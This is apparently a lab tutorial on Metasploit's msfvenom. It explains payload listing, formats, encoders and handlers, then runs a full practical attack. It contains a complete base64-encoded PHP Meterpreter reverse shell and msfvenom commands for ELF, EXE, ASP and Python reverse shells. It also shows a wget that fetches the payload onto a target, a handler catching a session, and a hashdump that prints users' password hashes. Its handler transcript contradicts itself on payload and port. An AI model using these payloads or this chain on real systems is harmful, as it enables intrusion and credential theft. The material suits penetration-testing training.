

# msfvenom

Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.

Msfvenom will allow you to access all payloads available in the Metasploit framework. Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

```shell
root@ip-10-10-186-44:~# msfvenom -l payloads 

Framework Payloads (562 total) [--payload ]
==================================================

    Name                                                Description
    ----                                                -----------
    aix/ppc/shell_bind_tcp                              Listen for a connection and spawn a command shell
    aix/ppc/shell_find_port                             Spawn a shell on an established connection
    aix/ppc/shell_interact                              Simply execve /bin/sh (for inetd programs)
    aix/ppc/shell_reverse_tcp                           Connect back to attacker and spawn a command shell
    android/meterpreter/reverse_http                    Run a meterpreter server in Android. Tunnel communication over HTTP
    android/meterpreter/reverse_https                   Run a meterpreter server in Android. Tunnel communication over HTTPS
    android/meterpreter/reverse_tcp                     Run a meterpreter server in Android. Connect back stager
    android/meterpreter_reverse_http                    Connect back to attacker and spawn a Meterpreter shell
    android/meterpreter_reverse_https                   Connect back to attacker and spawn a Meterpreter shell
    android/meterpreter_reverse_tcp                     Connect back to the attacker and spawn a Meterpreter shell
    android/shell/reverse_http                          Spawn a piped command shell (sh). Tunnel communication over HTTP
    android/shell/reverse_https                         Spawn a piped command shell (sh). Tunnel communication over HTTPS
    android/shell/reverse_tcp                           Spawn a piped command shell (sh). Connect back stager
    apple_ios/aarch64/meterpreter_reverse_http          Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/aarch64/meterpreter_reverse_https         Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/aarch64/meterpreter_reverse_tcp           Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/aarch64/shell_reverse_tcp                 Connect back to attacker and spawn a command shell
    apple_ios/armle/meterpreter_reverse_http            Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/armle/meterpreter_reverse_https           Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/armle/meterpreter_reverse_tcp             Run the Meterpreter / Mettle server payload (stageless)
```

&nbsp;

## **Output formats**

You can either generate stand-alone payloads (e.g. a Windows executable for <span style="color: inherit;">Meterpreter</span>) or get a usable raw format (e.g. python). The`msfvenom --list formats` command can be used to list supported output formats

&nbsp;

## **Encoders**

Contrary to some beliefs, encoders do not aim to bypass antivirus installed on the target system. As the name suggests, they encode the payload. While it can be effective against some antivirus software, using modern obfuscation techniques or learning methods to inject shellcode is a better solution to the problem. The example below shows the usage of encoding (with the `-e` parameter). The <span style="color: inherit;">PHP</span> version of <span style="color: inherit;">Meterpreter</span> was encoded in Base64, and the output format was `raw`.

```shell
bob@BoB~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1507 (iteration=0)
php/base64 chosen with final size 1507
Payload size: 1507 bytes
eval(base64_decode(Lyo8P3BocCAvKiovIGVycm9yX3JlcG9ydGluZygwKTsgJGlwID0gJzEwLjEwLjE4Ni40NCc7ICRwb3J0ID0gNDQ0NDsgaWYgKCgkZiA9ICdzdHJlYW1fc29ja2V0X2NsaWVudCcpICYmIGlzX2NhbGxhYmxlKCRmKSkgeyAkcyA9ICRmKCJ0Y3A6Ly97JGlwfTp7JHBvcnR9Iik7ICRzX3R5cGUgPSAnc3RyZWFtJzsgfSBpZiAoISRzICYmICgkZiA9ICdmc29ja29wZW4nKSAmJiBpc19jYWxsYWJsZSgkZikpIHsgJHMgPSAkZigkaXAsICRwb3J0KTsgJHNfdHlwZSA9ICdzdHJlYW0nOyB9IGlmICghJHMgJiYgKCRmID0gJ3NvY2tldF9jcmVhdGUnKSAmJiBpc19jYWxsYWJsZSgkZikpIHsgJHMgPSAkZihBRl9JTkVULCBTT0NLX1NUUkVBTSwgU09MX1RDUCk7ICRyZXMgPSBAc29ja2V0X2Nvbm5lY3QoJHMsICRpcCwgJHBvcnQpOyBpZiAoISRyZXMpIHsgZGllKCk7IH0gJHNfdHlwZSA9ICdzb2NrZXQnOyB9IGlmICghJHNfdHlwZSkgeyBkaWUoJ25vIHNvY2tldCBmdW5jcycpOyB9IGlmICghJHMpIHsgZGllKCdubyBzb2NrZXQnKTsgfSBzd2l0Y2ggKCRzX3R5cGUpIHsgY2FzZSAnc3RyZWFtJzogJGxlbiA9IGZyZWFkKCRzLCA0KTsgYnJlYWs7IGNhc2UgJ3NvY2tldCc6ICRsZW4gPSBzb2NrZXRfcmVhZCgkcywgNCk7IGJyZWFrOyB9IGlmICghJGxlbikgeyBkaWUoKTsgfSAkYSA9IHVucGFjaygi.TmxlbiIsICRsZW4pOyAkbGVuID0gJGFbJ2xlbiddOyAkYiA9ICcnOyB3aGlsZSAoc3RybGVuKCRiKSA8ICRsZW4pIHsgc3dpdGNoICgkc190eXBlKSB7IGNhc2UgJ3N0cmVhbSc6ICRiIC49IGZyZWFkKCRzLCAkbGVuLXN0cmxlbigkYikpOyBicmVhazsgY2FzZSAnc29ja2V0JzogJGIgLj0gc29ja2V0X3JlYWQoJHMsICRsZW4tc3RybGVuKCRiKSk7IGJyZWFrOyB9IH0gJEdMT0JBTFNbJ21zZ3NvY2snXSA9ICRzOyAkR0xPQkFMU1snbXNnc29ja190eXBlJ10gPSAkc190eXBlOyBpZiAoZXh0ZW5zaW9uX2xvYWRlZCgnc3Vob3NpbicpICYmIGluaV9nZXQoJ3N1aG9zaW4uZXhlY3V0b3IuZGlzYWJsZV9ldmFsJykpIHsgJHN1aG9zaW5fYnlwYXNzPWNyZWF0ZV9mdW5jdGlvbignJywgJGIpOyAkc3Vob3Npbl9ieXBhc3MoKTsgfSBlbHNlIHsgZXZhbCgkYik7IH0gZGllKCk7));
bob@BoB~#
```

&nbsp;

## **Handlers**

Similar to exploits using a reverse shell, you will need to be able to accept incoming connections generated by the MSFvenom payload. When using an exploit module, this part is automatically handled by the exploit module, you will remember how the `payload options` title appeared when setting a reverse shell. The term commonly used to receive a connection from a target is 'catching a shell'. Reverse shells or <span style="color: inherit;">Meterpreter</span> callbacks generated in your MSFvenom payload can be easily caught using a handler.

The following scenario may be familiar; we will exploit the file upload vulnerability present in DVWA (Damn Vulnerable Web Application). DVWA was used here for illustration purposes. The exploit steps are;

1.  Generate the <span style="color: inherit;">PHP</span> shell using MSFvenom
2.  Start the <span style="color: inherit;">Metasploit</span> handler
3.  Execute the <span style="color: inherit;">PHP</span> shell

MSFvenom will require a payload, the local machine IP address, and the local port to which the payload will connect. Seen below, 10.0.2.19 is the IP address of the attack machine used in the attack and local port 7777 was chosen.

```shell
bob@BoB~# msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3020 bytes
bob@BoB~#
```

Please note: The output PHP file will miss the starting PHP tag commented and the end tag (?>), as seen below.



The reverse_shell.<span style="color: inherit;">php</span> file should be edited to convert it into a working <span style="color: inherit;">PHP</span> file.

Below: Comments removed from the beginning of the file.


Below: End tag added


We will use Multi Handler to receive the incoming connection. The module can be used with the `use exploit/multi/handler` command.

Multi handler supports all <span style="color: inherit;">Metasploit</span> payloads and can be used for <span style="color: inherit;">Meterpreter</span> as well as regular shells.

To use the module, we will need to set the payload value (`php/reverse_php` in this case), the LHOST, and LPORT values.

```shell
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.19        yes       The listen address (an interface may be specified)
   LPORT  7777             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) >
```

Once everything is set, we will `run`the handler and wait for the incoming connection.

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.186.44:7777
```

When the reverse shell is triggered, the connection will be received by multi/handler and provide us with a shell.

If the payload was set as <span style="color: inherit;">Meterpreter</span> (e.g. in a Windows executable format), multi/handler would then provide us with a <span style="color: inherit;">Meterpreter</span> shell.

&nbsp;

## Other Payloads

Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. Below are a few examples you will often use:

In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen.

### Linux Executable and Linkable Format (elf)

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```

The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the `chmod +x shell.elf` command to accord executable permissions. Once done, you can run this file by typing `./shell.elf` on the target machine command line.

### Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

### ASP

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

### Python

```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

All of the examples above are reverse payloads. This means you will need to have the `exploit/multi/handler` module listening on your attacking machine to work as a handler. You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same you have used when creating the msfvenom payload.

&nbsp;

&nbsp;

# Practical Example

Create a meterpreter payload in the .elf format in the attack machine.

```shell
bob@BoB~# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[attack machine IP] LPORT=[any available port] -f elf > reverse_shell.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
bob@BoB~#
```

&nbsp;

Transfer it to the target machine and give the file executable permissions (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).

```shell
bob@BoB~# python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...

```

```shell
target@machine~# wget http://10.10.224.163:9000/reverse_shell.elf
--2025-02-07 01:34:33--  http://10.10.224.163:9000/reverse_shell.elf
Connecting to 10.10.224.163:9000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 207 [application/octet-stream]
Saving to: ‘reverse_shell.elf.1’

reverse_shell.elf.1                     100%[============================================================================>]     207  --.-KB/s    in 0s      

2025-02-07 01:34:33 (30.0 MB/s) - ‘reverse_shell.elf.1’ saved [207/207]

target@machine~# chmod +x reverse_shell.elf
target@machine~# 
```

&nbsp;

Now set up a multi handler in the attack machine to listen for the connection from the target machine, and wait for the target machine to execute the payload file (the multi handler must be running before the target runs the file).

```shell
target@machine~# ./reverse_shell.elf

```

```shell
bob@BoB~# msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp

msf5 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php

msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19

msf6 exploit(multi/handler) > set lport 7777
lport => 7777

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.224.163:1234 
[*] Sending stage (1017704 bytes) to 10.10.150.175
[*] Meterpreter session 2 opened (10.10.224.163:1234 -> 10.10.150.175:51320) at 2025-02-07 01:26:35 +0000

meterpreter > 

```

&nbsp;

Now if you want to use the established session for other exploits, you can background it and switch. For example, retrieving the dumping the hash password of the users in the target machine.

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.224.163:1234 
[*] Sending stage (1017704 bytes) to 10.10.150.175
[*] Meterpreter session 2 opened (10.10.224.163:1234 -> 10.10.150.175:51320) at 2025-02-07 01:26:35 +0000

meterpreter > 
Background session 2? [y/N]  
msf6 exploit(multi/handler) > search linux hashdump post

Matching Modules
================

   #  Name                        Disclosure Date  Rank    Check  Description
   -  ----                        ---------------  ----    -----  -----------
   0  post/linux/gather/hashdump  .                normal  No     Linux Gather Dump Password Hashes for Linux Systems


Interact with a module by name or index. For example info 0, use 0 or use post/linux/gather/hashdump

msf6 exploit(multi/handler) > use 0
msf6 post(linux/gather/hashdump) > set session 2
session => 2
msf6 post(linux/gather/hashdump) > run

[+] murphy:$6$qK0Kt4UO$HuCrlOJGbBJb5Av9SL7rEzbxcz/KZYFkMwUqAE0ZMDpNRmOHhPHeI2JU3m9OBOS7lUKkKMADLxCBcywzIxl7b.:1001:1001::/home/murphy:/bin/sh
[+] claire:$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0:1002:1002::/home/claire:/bin/sh
[+] Unshadowed Password File: /root/.msf4/loot/20250207012707_default_10.10.150.175_linux.hashes_349770.txt
[*] Post module execution completed
msf6 exploit(linux/gather/hashdump) >
```